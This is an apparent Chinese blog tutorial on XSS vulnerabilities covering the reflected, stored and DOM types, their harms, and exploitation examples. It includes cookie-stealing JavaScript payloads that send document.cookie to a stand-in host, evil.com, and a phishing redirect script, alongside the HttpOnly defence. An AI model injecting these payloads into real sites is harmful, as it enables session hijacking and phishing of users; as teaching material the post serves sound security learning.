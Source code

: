 ```yaml
---
title: XSS学习系列Chapter 2：漏洞原理
date: 2019-03-11 09:42:09
tags: 
	- XSS
categories: WEB漏洞学习
---
```


## 一、概述

### 0x00 什么是XSS漏洞？

> XSS，即跨站脚本（Cross Site Script），是由于网站对用户输入过滤不严而造成的漏洞。攻击者可以通过提交恶意JS代码，把恶意的脚本代码注入到网页之中，当其他用户浏览这些带有恶意代码的网页时就会执行其中的恶意代码导致被攻击。

<!-- more -->

### 0x01 XSS分类

**1.反射型XSS**

> 只是简单地把用户输入的数据”反射”给浏览器，攻击时需要诱骗用户点击恶意链接，也叫”非持久型XSS”。

**2.存储型XSS**

> 会把用户输入的数据”存储”在服务器端，也叫”持久性XSS”。常见于留言板、博客文章等可以提交并展示用户输入内容的功能点。

**3.DOM XSS**

> DOM XSS是由于前端的JS操作DOM时存在漏洞。
>
> 与前两种的主要区别在于，DOM XSS是不与服务端交互的，触发XSS靠的只是客户端DOM解析，DOM XSS是在浏览器的解析中改变页面DOM树，且恶意代码并不在返回页面源码中回显。

### 0x02 XSS特点

1. 是一种攻击客户端的漏洞，而不是攻击服务器的漏洞。
2. 反射型XSS与存储型XSS都先与服务器交互后返回，DOM XSS是不需要服务器参与的。

### 0x03 XSS危害

> 理论上，只要是JavaScript脚本能做的功能，XSS Payload都能做到。

- 窃取Cookie
- 钓鱼攻击
- 网页篡改、挂马
- DoS攻击
- XSS传播蠕虫
- 发起指定的GET/POST请求
- 结合CSRF漏洞进行攻击
- ......

## 二、XSS漏洞利用

### 0x00 窃取Cookie

**1.前瞻知识**

- `document.cookie`可以获取到当前用户在当前网站的Cookie值。
- `escape()`函数用于构建合理的URL（对给定的URL进行URL编码使其符合规定）。

**2.漏洞利用脚本：**

```javascript
var img = document.createElement('img'); 
img.src='http://www.evil.com/no.php?'+escape(document.cookie);
document.body.appendChild(img);
```

脚本原理：创建一个用于请求图片的`<img>`标签，该标签会向`src`属性指定的URL发起一次GET请求，我们让其`src`向我们的服务器发起一次GET并且让其携带Cookie作为参数。若脚本被加载并执行成功，我们通过查看我们的服务器`access.log`日志就能看到Cookie。也可以编写一个页面来接收Payload发送的Cookie参数。

**3.其他漏洞利用代码：**

- `<img src="http://www.evil.com?cookie='+document.cookie"></img>`
- `<script>new Image().src="http://www.evil.com?cookie="+document.cookie;</script>`

**4.窃取其他信息**

- `navigator.userAgent`读取客户端UA。

**5.防御**

在Set-Cookie时设置Http-Only标识，设置后将不允许JavaScript读取Cookie。

### 0x01 钓鱼攻击

**1.重定向钓鱼**

> `<script>document.location.href="http://www.evil.com"</script>`

**2.iframe**

通过JavaScript来添加一个新的`<iframe>`标签嵌入第三方域的内容(钓鱼网页)，此时主页面仍处于正常页面下，具有极高的迷惑性。

### 0x02 其他利用

参考链接：

http://wps2015.org/2016/12/12/usually-used-xss-code/

https://bbs.ichunqiu.com/thread-25578-1-1.html?from=sec

## 三、XSS Check Cheatsheet

http://momomoxiaoxi.com/2017/10/10/XSS/

https://github.com/s0md3v/AwesomeXSS